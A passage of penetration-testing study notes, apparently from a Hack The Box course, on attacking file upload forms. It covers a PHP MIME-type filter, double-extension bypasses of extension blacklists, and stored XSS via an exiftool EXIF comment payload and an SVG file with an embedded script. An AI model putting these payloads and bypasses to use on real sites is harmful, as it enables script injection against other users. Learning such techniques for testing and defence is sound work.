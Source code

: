 ###### Example PHP filter
```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
uses [mime_content_type](https://www.php.net/manual/en/function.mime-content-type.php)function in PHP to filter by content-type 

>notice that there are few PHP extensions that do not get blocked by the blacklist filter, as they show a different response from "Extension not allowed

once we get the extension not allowed, we need to then use the double extension method as the back-end server is associating that extension with something that can run code.

## Limited File Uploads 
If secure filters are exploitable there are still some exploits we can do when dealing with a **non-limited** upload form.

Certain file types, like `SVG`, `HTML`, `XML`, and even some image and document files, may allow us to introduce new vulnerabilities to the web application by uploading malicious versions of these files

this is why we should ***Always Fuzz File Extensions***

### XSS Attacks (Cross Site Scripting)
many files allow us to upload stored XSS attacks by uploading maliciously crafted versions of files. 

When a website allows us to upload html files we can implement XSS or  CSRF on whoever opens the page. 

An easy attack is on websites that display meta data after an image is uploaded.
We can then attach a XSS payload to the EXIF data of the image 

```shell-session
Retrosoda@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
Retrosoda@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

**SVG** files are XML based and therefore can be modified to include an XSS payload in their XML structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
